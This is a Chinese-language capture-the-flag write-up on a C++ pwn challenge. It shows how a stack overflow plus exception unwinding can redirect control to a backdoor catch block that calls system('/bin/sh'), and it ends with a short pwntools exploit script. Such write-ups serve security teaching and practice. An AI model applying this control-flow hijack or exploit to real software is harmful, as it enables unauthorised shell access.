

# 前言
当时比赛我没看这题，在搞一个`houseofapple2`的`orw`，由于利用比较麻烦，以及我太菜没搞过类似`io的orw`，导致浪费太久时间。
火箭这次比赛爆上分，提供`TravelGraph`的思路同时砍下`logger和html`，tql！！
# 功能介绍
## main

main函数很明确，一个菜单，两个功能`trace和warn`，由于ida的问题反汇编并不能看到c++的try和catch，下面这张图是汇编代码看到的try和catch

看到warn函数是在try里面的

然后是main函数对于异常的处理，没什么特别的，就是printf了一下，然后又会回到主循环中。
## warn

可以看到在warn函数中有大的栈溢出，我们或许可以用这个栈溢出来劫持程序流。
问题在于程序也有检查，如果输入字节仅仅大于10就会抛出异常。(以及warn函数中并没有对于这个try的catch处理，所以这个异常会回溯到上一步，由main中的catch处理)
## trace

在全局变量段读入数据，每次10字节。
可以发现图中绿色的一行上有一个强制在输入的字符串后面加上`'\x00'`，如果刚好输入0x10个字节则会导致不规范的越界写入`'\x00'`。

遍历的方式是在i属于[0,8]的情况下，如果*(char*)buf[0x10*i] == 0，认为这个未被使用过，就拿来给我们读0x10个字节

我们可以通过在`'Buffer Overflow'`前的一次输入选择输入十个字节，让`'Buffer Overflow'`的第一个字节被覆盖为0，就可以覆盖`'Buffer Overflow'`的前0x10个字节内容，不清楚有什么用，暂且按下不表。

## c++异常机制
c++关于异常的三个关键词，try，catch，throw。
```c++
try {
    file.open("aaa.txt");
    // 可能出现错误的代码放在try里面
    if (!file.is_open()) { throw FileOpenException("Failed to open file");}
    // 如果出现异常，就throw，并交给对应的catch去处理
} catch (...) {
    // 捕获所有的异常
    std::cerr << "Unknown exception caught." << std::endl;
}
```
catch也可以和try不同时出现，比如某个函数的只有try，而将所有异常交给父函数处理
这一点之所以可以做到是因为c++异常处理会沿着调用链逐层回溯，直到找到catch对错误进行处理为止。(或者是找不到对应的catch，那就会导致程序异常终止)
```c++
void performTask() {
    try {
        riskyOperation(); // 调用可能会抛出异常的函数
    } catch (const std::exception& e) {
        // 捕获并处理来自 riskyOperation 的异常
    }
}

void riskyOperation() {
    try {
        throw std::runtime_error("An error occurred in riskyOperation");
    }
}
```
# 题目思路
由于c++的异常回溯会沿着函数调用链往回找，那我们刚好又可以通过栈溢出覆盖函数返回地址，从而影响函数调用链。
也就是说，我们可以让该异常处理机制误以为他是从另外的某个try块(成为tryA块)调用过来的，应该去tryA块去寻找对应的catch机制
好巧不巧，程序plt段有个system，跟进之后发现了作者留给我们的后门catch块

其中有调用system函数，而system函数的参数正好是指向`'Buffer Overflow'`的指针。

那就思路很清晰了，我们只需通过trace函数覆盖`'Buffer Overflow'`为`'/bin/sh'`，然后覆盖warn函数返回地址为上图最上方的try地址。

不过还有一点值得注意，异常处理既然回到了父函数，那么也会恢复父函数的rbp。而如果能控制rbp的话，肯定还可以有一些别的操作，比如伪造变量，比如通过leaveret二次跳转等等。
# exp
```python
def trace(tosend: bytes):
    io.sendlineafter(b'****************', b'1')
    io.sendafter(b'details', tosend)
    io.sendlineafter(b'check', b'n')

def warn(tosend: bytes):
    io.sendlineafter(b'****************', b'2')
    io.sendafter(b'message', tosend)

for _ in range(7):
    trace(b'skip')
trace(b'a'*0x10)
trace(b'/bin/sh'.ljust(0xf, b'\0'))
payload = b'0'*0x70 + p64(0x404500) + p64(0x401BC4)
warn(payload)
io.interactive()
```


